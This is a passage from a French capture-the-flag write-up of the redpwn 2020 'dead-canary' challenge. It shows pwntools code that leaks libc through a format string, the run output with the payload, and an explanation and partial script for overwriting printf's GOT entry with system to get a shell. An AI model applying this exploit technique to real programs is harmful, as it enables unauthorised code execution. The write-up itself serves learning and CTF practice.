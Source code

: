 ```python
l_printf = u64(data.ljust(8, "\x00"))
b_libc = l_printf - libc.sym.printf
libc.address = b_libc

log.info("leak printf: %s" % hex(l_printf))
log.info("leak libc  : %s" % hex(b_libc))
log.info("leak system: %s" % hex(libc.sym.system))

p.interactive()
```

sortie:
```
$ python stage1.py 
[+] Starting local process '/.../CTF/redpwn/2020/pwn/dead-canary/bin/dead-canary': pid 14813
[*] payload size : 272
[*] payload : %064x%11$n%01783x%12$hn%13$sBBBBBBBBBBB\x00\x10\x00\x00\x00\x10\x00\x00\x00\x10\x00\x00\x00CC[...]C
[*] leak printf: 0x7ffff7a48e80
[*] leak libc  : 0x7ffff79e4000
[*] leak system: 0x7ffff7a33440
[*] Switching to interactive mode
 $ foo
Hello foo
\xff\x7f[*] Process '/.../CTF/redpwn/2020/pwn/dead-canary/bin/dead-canary' stopped with exit code 0 (pid 14813)
[*] Got EOF while reading in interactive
[*] Interrupted
```

### Appel à system et obtention d'un shell

Comme la première parti, nous tirons avantage de la format string pour réécrire l'entrée de `printf` dans la GOT par l'adresse de la fonction `system` que nous avons calculer grace au leak de la libc.

On redéclenchera alors un overflow sur le cookie, ce qui appelera le main via `__stack_chk_fail` et nous pourrons alors saisir `/bin/sh` dans le buffer qui sera passer à `system` via la réécriture de `printf` dans la GOT et ainsi déclenchera notre shell.

Il s'agit exactement de la même technique, je vais donc juste mettre à jour mon exploit:

```python
from pwn import *

elf = ELF("./dead-canary")
libc = elf.libc

p = process(elf.path)
p.recvuntil(": ")

log.warning("stage #1 : leaks.")
log.info("__stack_chk_fail: %s" % hex(elf.got.__stack_chk_fail))

fmt = "%064x"
fmt += "%11$n" 
fmt += "%01783x"
fmt += "%12$hn"
fmt += "%13$s"
fmt += "BBBBBBBBBBB\x00"
fmt += p64(elf.got.__stack_chk_fail + 2)
fmt += p64(elf.got.__stack_chk_fail)
fmt += p64(elf.got.printf) 
fmt += "C"*(272-len(fmt))

log.info("payload size : %s" % str(len(fmt)))
```